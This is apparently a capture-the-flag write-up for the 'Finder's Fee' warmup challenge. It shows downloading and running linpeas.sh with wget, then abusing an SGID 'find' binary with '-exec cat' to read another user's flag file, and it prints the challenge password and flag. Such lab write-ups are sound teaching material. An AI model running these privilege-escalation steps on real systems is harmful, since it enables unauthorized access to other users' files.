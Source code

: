 +++
title = "Finder's Fee"
description = "You gotta make sure the people who find stuff for you are rewarded well!\n\nEscalate your privileges and uncover the flag.txt in the finder user's home directory.\n\nPress the Start button in the top-right to begin this challenge.\nConnect with:\n\n# Password is \"userpass\"\nssh -p 30668 user@challenge.ctf.games"
authors = ["mango", "Tyr", "cstef"]
date = 2024-09-30

[taxonomies]
categories = ["warmups"]
+++

## Description

You gotta make sure the people who find stuff for you are rewarded well!

Escalate your privileges and uncover the flag.txt in the finder user's home directory.

Press the Start button in the top-right to begin this challenge.

----

First, we need to connect to the machine via SSH with the following command:

```bash
# Password is "userpass"
ssh -p <port> user@challenge.ctf.games
```

At this point, we are connected as `user`, and we know the `flag.txt` file is located in the `finder` user's home directory (`/home/finder/flag.txt`).
It appears that we can use `wget`, so let's download `linpeas.sh` to help identify potential privilege escalation vectors:

```bash
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

However, the machine crashes consistently when running `linpeas.sh`. To avoid this, we can disable some of the more resource-intensive checks and try again:

```bash
./linpeas.sh -o interesting_files,users_information,software_information,interesting_perms_files
```

Upon running this, we found a privilege escalation opportunity involving the `find` command, which has the `SGID` bit set with the user `finder`.

![](https://i.imgur.com/bSv4Edv.png)

Using this, we can read the `flag.txt` file with the following command:

```bash
find /home/finder/flag.txt -exec cat {} \;
```

The flag is: `flag{5da1de289823cfc200adf91d6536d914}`